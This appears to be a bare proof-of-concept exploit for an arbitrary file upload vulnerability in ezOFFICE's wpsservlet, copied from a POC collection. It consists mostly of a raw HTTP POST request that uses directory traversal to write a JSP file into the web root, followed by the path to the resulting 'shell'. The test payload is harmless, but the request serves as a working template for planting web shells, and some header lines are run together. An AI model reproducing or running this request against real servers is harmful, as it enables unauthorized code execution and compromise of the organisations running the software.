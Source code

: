 # ezOFFICE_fileupload
from:  https://github.com/wy876/POC/blob/main/%E4%B8%87%E6%88%B7ezoffice%20wpsservlet%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
```
POST /defaultroot/wpsservlet?option=saveNewFile&newdocId=apoxkq&dir=../platform/portal/layout/&fileType=.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Length: 173Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Connection: close
Content-Type: multipart/form-data; boundary=ufuadpxathqvxfqnuyuqaozvseiueerpDNT: 1
Upgrade-Insecure-Requests: 1

--ufuadpxathqvxfqnuyuqaozvseiueerp
Content-Disposition: form-data; name="NewFile"; filename="apoxkq.jsp"

<% out.print("sasdfghjkj");%>
--ufuadpxathqvxfqnuyuqaozvseiueerp--
```
shell path:
`/defaultroot/platform/portal/layout/apoxkq.jsp`
